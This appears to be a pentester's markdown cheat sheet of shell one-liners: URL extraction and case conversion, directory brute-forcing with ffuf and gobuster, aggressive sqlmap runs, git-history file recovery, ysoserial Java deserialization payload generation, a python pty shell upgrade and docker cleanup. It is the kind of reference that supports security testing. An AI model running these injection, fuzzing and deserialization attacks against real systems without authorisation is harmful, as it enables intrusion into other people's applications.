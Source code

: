 # Regex

**Extract urls**

```
cat a | grep -Eo "(http|https)://[a-zA-Z0-9./?=_-]*" | sort -u

cat a | grep -Eo "(http|https)://[a-zA-Z0-9./?=_-]*" | tr '[:upper:]' '[:lower:]' | sort -u
```

# tr

**Upper -> lowercase**
```
cat a | tr '[:upper:]' '[:lower:]'
```


**Lower -> uppercase**
```
cat a | tr '[:lower:]' '[:upper:]'
```


# Directory listing


**Download dictionary**
```
wget https://gist.githubusercontent.com/jhaddix/b80ea67d85c13206125806f0828f4d10/raw/c81a34fe84731430741e0463eb6076129c20c4c0/content_discovery_all.txt
```


**ffuf**
```
ffuf -t 10 -u http://url.com/FUZZ -w /root/dict/content_discovery_all.txt -fc "302"
```


**Gobuster**
```
gobuster dir -r -k -u URL -w ../dict/content_discovery_all.txt --wildcard
```


# SQLMap
```
sqlmap -r url.com --level 5 --risk 3 --batch
```


```
for i in $(ls *txt); do sqlmap -r $i --level 3 --risk 3 --dbms=Oracle --ignore-redirects --batch; done
```

# Git


```
for i in $(git log --oneline | cut -d " "  -f 1); do echo; git reset $i; git checkout -- . ; ls ; done
```


# Ysoserial
```
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsCollections7 'sleep 10' | base64 -w0 -

java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsCollections7 'sleep 10' | base64 -w0 - | base64 -d  | cut -c 9- | base64 -w0 -; echo

for i in $(cat a | awk '{ print $1 }' ); do java -jar ysoserial-0.0.6-SNAPSHOT-all.jar $i 'sleep 10' | base64 -w0 - | base64 -d  | cut -c 9- | base64 -w0 -; echo; done | tee dict2.txt
```


# Upgrade shell

```
python -c 'import pty; pty.spawn("/bin/bash")'  
```

# Docker

Kill all docker images

```
for i in $(docker ps -a | cut -d " " -f 1 | grep -v CON); do echo $i; docker rm $i; done
```
